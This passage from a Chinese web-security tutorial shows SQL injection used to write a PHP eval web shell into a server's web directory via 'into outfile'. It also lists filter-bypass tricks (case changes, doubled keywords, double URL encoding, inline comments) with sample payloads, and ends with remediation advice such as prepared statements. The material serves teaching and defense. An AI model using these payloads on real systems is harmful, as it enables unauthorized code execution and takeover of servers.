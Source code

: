 9、**getshell**  
  
使用into outfile将webshell写入服务器，前提是拥有web目录的写权限、知道网站的绝对路径、secure_file_priv没有值。  
  
1）假设从phpinfo文件中获得了网站的绝对路径：  
  
D:/phpStudy/PHPTutorial/WWW/，现利用SQL注入漏洞写入webshell  
```
?id=-1' union select 1,"<?php @eval($_POST['cmd']);?>",3 into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\shell.php"--+
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4R0XWFzx60icMQ0W4O03cuIpnAibtib6xibm8HDcfmnbrNlzy7ocelPqiafdg/640?wx_fmt=png&from=appmsg "")  
  
SQL注入绕过  
  
1、**大小写绕过**  
  
改变关键字的大小写尝试绕过，例如and->And、order by->Order By等  
  
2、**双写绕过**  
  
双写绕过的应用场景：关键字被去除，比如输入and 1=1，被过滤去除后变为1=1，则可以尝试双写绕过，例如anandd、selselectect  
  
3、**编码绕过**  
  
对关键字进行两次URL编码，例如将and、select等关键字进行两次url编码：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibbU68UK4TicZDTGk0jAU1VW7XhiblE0C9KQFQQWtET3MzIqJdpEq1WbibCeUMviasUQOkqOGiaJjnT8WQ/640?wx_fmt=png&from=appmsg "")  
  
4、**内联注释绕过**  
  
内联注释形式：/*! code */ 可用于整个sql语句中，用来执行sql语句，可用内联注释将关键字包起来，尝试绕过。例如：  
```
?id=1/*!and*/1=1--+
?id=1/*!union*//*!select*/1,2,3--+
```  
  
修复建议  
  
1、使用预编译语句：使用PDO预编译语句，使用占位符进行数据库的增删改查，不会将输入的数据直接作为SQL语句的一部分执行。  
  
2、过滤关键字：过滤SQL注入常见的关键字，例如select、sleep、union等。  
  
3、严格的数据类型：使用函数对输入的数据类型做判断，防范数字型注入。  
  
4、对特殊字符进行转义或者编码。  
  
END  
  
**查看更多精彩内容，关注**  
**simple学安全**  
  
  
